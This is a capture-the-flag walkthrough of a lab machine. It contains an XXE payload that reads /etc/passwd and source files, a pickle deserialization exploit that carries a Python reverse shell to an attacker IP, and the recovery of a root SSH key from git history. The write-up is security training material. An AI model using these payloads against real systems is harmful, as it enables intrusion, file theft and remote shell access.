

# USER

Performing the nmap scan gives us http page hosted using `Gunicorn`. There is mention of a `dev.solita.fi` backend on the page.

Using gobuster I have found an `upload` endpoint. It provides an xml structure


Uploading the XML below:
```xml
<note>
    <Author>Author</Author>
    <Subject>Subject</Subject>
    <Content>Content</Content>
</note>
```

Provides us with the message:
```
PROCESSED BLOGPOST: Author: Author Subject: Subject Content: Content URL for later reference: /uploads/payload.xml File path: /home/roosa/deploy/src
```

This seems like files go to the `uploads` endpoint. Lets check out if a non xml file goes there.

The parsing of the xml is vulnerable to XML External Entity (XXE Injection) attacks.

With this payload
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root> 
    <Author>&test;</Author>
    <Subject>Subject</Subject>
    <Content>Content</Content>
</root>
```

We can leak the `/etc/passwd`!

Previously the `feed.py` was mentioned. And we have a leaked file path (/home/roosa/deploy/src). We can use the payload above to leak the `feed.py`


It all comes out unformatted onto the webpage but with a little fixing we get this:
```python
def uploaded_file(filename): 
    return send_from_directory(Config.UPLOAD_FOLDER, filename) 
    
@app.route("/") 
def xss(): 
    return template('index.html') 
    
@app.route("/feed") 
def fakefeed(): 
    return send_from_directory(".","devsolita-snapshot.png") 
    
@app.route("/newpost", methods=["POST"]) 
def newpost(): # TODO: proper save to database, this is for testing purposes right now 
    picklestr = base64.urlsafe_b64decode(request.data) 
    #return picklestr 
    postObj = pickle.loads(picklestr) 
    return "POST RECEIVED: " + postObj['Subject'] ## TODO: VERY important! DISABLED THIS IN PRODUCTION 
    
    # app = DebuggedApplication(app, evalex=True, console_path='/debugconsole') # TODO: Replace run-gunicorn.sh with real Linux service script 
    # app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')

if __name__ == "__main__":
    app.run(host='0.0.0,0', Debug=True)
```

We can see from the leaked source code that the `/newpost` endpoint is using `pickle`. I know from experience that this is vulnerable to a pickle reverse shell.

Due to the webserver being run on python I know that a python reverse shell will work.

```
Please NOTE: Python2 and Python3 will create different pickle strings
```

Using the pickle exploit:

```python
payload = "python -c 'import socket,subprocess,os;IP=\"10.10.14.55\";PORT=6868;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

class ReverseShell(object):
    def __reduce__(self):
        import os
        return (os.system, (payload,))
```

We are able to gain a reverse shell on the target. This runs the code because when the `unpickle` method is called it wil always resolve the `__reduce__` method causing our payload to run.

This gives us the ability to `cat` the `user.txt`.

# ROOT

Running lse.sh gives us the presence of a `.git` file in the home directory of roosa. This is interesting because these folders can be a treasure trove of useful information.

Reading through the commit history we see mention of a keys:

```
commit: add key for feed integration from tnerprise backend
commit: reverted accidental commit with proper key
```

This is interesting because incorrect keys can easily be committed. Files can be recovered from .git repos by using GitTools `extractor.sh`

Running:

```
./extractor.sh <LOCATION OF .git> <OUTPUT DIR>
```

Outputs the files for the second commit. Inside is a key that when tested is the `root` ssh key.